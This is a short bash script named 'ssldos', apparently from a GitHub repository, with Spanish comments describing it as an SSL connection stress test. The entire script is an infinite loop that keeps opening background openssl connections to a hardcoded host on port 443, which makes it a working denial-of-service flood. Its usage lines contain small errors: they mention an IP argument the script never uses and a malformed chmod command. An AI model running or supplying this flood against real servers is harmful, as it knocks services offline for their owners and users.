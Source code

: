 # ssldos

#!/bin/bash
# TEST DE STRESS CONEXIONES SSL
Antonio Taboada 30/12/2016
# chmod *x ssldos.sh
# ./ssldos.sh IP
# Para parar Control + C

while true; do

        openssl s_client -connect web.hackingyseguridad.com:443 2>/dev/null 1>/dev/null&

done
